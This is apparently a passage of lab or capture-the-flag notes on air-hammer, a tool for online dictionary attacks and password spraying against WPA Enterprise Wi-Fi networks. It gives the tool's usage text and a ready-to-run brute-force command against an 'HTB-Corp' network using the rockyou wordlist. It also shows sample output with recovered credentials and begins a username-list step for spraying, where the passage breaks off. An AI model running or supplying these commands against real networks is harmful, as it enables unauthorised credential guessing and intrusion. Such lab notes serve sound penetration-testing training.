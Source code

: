 ### Tool overview & usage

Command help (as provided):

```
python2 /opt/air-hammer/air-hammer.py 

usage: air-hammer.py -i interface -e SSID -u USERFILE [-P PASSWORD]
                     [-p PASSFILE] [-s line] [-w OUTFILE] [-1] [-t seconds]

Perform an online, horizontal dictionary attack against a WPA Enterprise
network.

optional arguments:
  -i interface  Wireless interface (default: None)
  -e SSID       SSID of the target network (default: None)
  -u USERFILE   Username wordlist (default: None)
  -P PASSWORD   Password to try on each username (default: None)
  -p PASSFILE   List of passwords to try for each username (default: None)
  -s line       Optional start line to resume attack. May not be used with a
                password list. (default: 0)
  -w OUTFILE    Save valid credentials to a CSV file (default: None)
  -1            Stop after the first set of valid credentials are found
                (default: False)
  -t seconds    Seconds to sleep between each connection attempt (default:
                0.5)
```

> **Inputs you must supply:** monitor/inject‑capable interface, **SSID**, **user list**, and either a single **password** or a **password list**.

### Horizontal attack (one user, many passwords)

> You discovered an identity during recon (e.g., `HTB\Sentinal`). Include the domain prefix when testing.

```bash
echo "HTB\Sentinal" > user.txt
python2 /opt/air-hammer/air-hammer.py -i wlan1 -e HTB-Corp -p /opt/rockyou.txt -u user.txt
```

**Sample output (yours):**

```
[0]  Trying HTB\Sentinal:123456...
...
[!] VALID CREDENTIALS: HTB\Sentinal:football
```

### Password spray (one password, many users)

1. Build a domain‑prefixed user list (example uses statistically‑likely usernames):
    

```bash
cat /opt/statistically-likely-usernames/john.txt | awk '{print "HTB\\" $1}' > domain_users.txt
```
